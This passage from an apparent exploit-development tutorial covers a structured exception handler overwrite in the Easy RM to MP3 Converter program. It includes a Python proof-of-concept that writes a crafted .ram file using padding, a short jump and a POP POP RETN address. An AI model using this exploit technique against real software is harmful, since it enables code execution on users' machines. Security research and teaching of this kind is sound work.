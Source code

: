 Despite the great variety of possible modules to pick in order to find a reliable POP POP RETN address, this is a SEH Overwrite in which it does not need further bytes after the POP POP RETN sequence in order to generate an exception, as a result, making it possible to exploit this application with a 3-byte overwrite, which would be a great demostration within this blog post. In this case, the module with a base address along with a NULL-byte is "RM2MP3Converter.exe".

Listing possible POP POP RETN sequences within the module "RM2MP3Converter.exe":

![](/assets/img/Findings2/8-2.png)

The first address is chosen and copied within the PoC. Furthermore, a short jump backwards is added:

```term_session
import struct

nseh = "\xEB\x06\x90\x90"
seh = "\x3C\x56\x40" # 0x0040563c : pop ebx # pop ebp # ret 0x04 | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [RM2MP3Converter.exe] 
ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.7.3.700 (C:\Program Files\Easy RM to MP3 Converter\RM2MP3Converter.exe)

buffer = "A" * 45388 + nseh + seh

f = open ("finding2.ram", "w")
f.write(buffer)
f.close()
```
